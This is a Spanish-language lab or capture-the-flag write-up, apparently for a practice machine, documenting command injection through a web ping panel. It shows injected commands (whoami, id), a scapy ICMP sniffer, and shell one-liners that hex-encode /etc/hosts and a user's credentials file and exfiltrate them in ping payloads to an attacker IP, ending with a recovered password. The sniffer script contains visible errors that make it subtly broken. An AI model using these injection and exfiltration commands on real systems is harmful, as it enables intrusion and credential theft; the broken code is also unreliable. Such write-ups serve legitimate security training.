 ## Vulnerability Assessment {-}

### Panel de ejecucion de commandos {-}

Intentamos ver si tenemos connectividad.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp
    ```

1. Lanzamos un ping

    ```bash
    ping -c 2 10.10.14.29
    ```

Vemos que recuperamos las trazas.

Intentamos otros commandos

```bash
ping -c 2 10.10.14.29;
ping -c 2 10.10.14.29; whoami
ping -c 2 10.10.14.29; id
```

Vemos que poniendo el *punto y coma* podemos ver un resultado en la web pero no vemos el resultado de id o de whoami. Pero si intentamos

```bash
id;
```

Vemos el resultado en la web. Aqui la movida seria de poder leer archivos desde una traza ICMP, mejor dicho con un ping.

### Local File Inclusion con un ping {-}

Es possible enviar datos con el comando ping con el parametro -p. Primero nos creamos un script en python que va a funccionar
como un sniffer.

```python
#!/usr/bin/python3

from scapy.all import *
import signal, time

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet.[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')

if __name__ == '__main__':
    sniff(iface='tun0', prn=data_parser)
```

Si desde el panel de comandos de la web le ponemos:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line 10.10.14.29; done
```

podemos leer ficheros internos de la maquina victima con ping.

Como en la web vemos un mensaje que hay un fichero credentials en el directorio personnal, miramos para leerlo con el commando

```bash
xxd -p -c 4 /home/loki/cred* | while read line; do ping -c 1 -p $line 10.10.14.29; done
```

y vemos un password `lokiisthebestnorsegod`.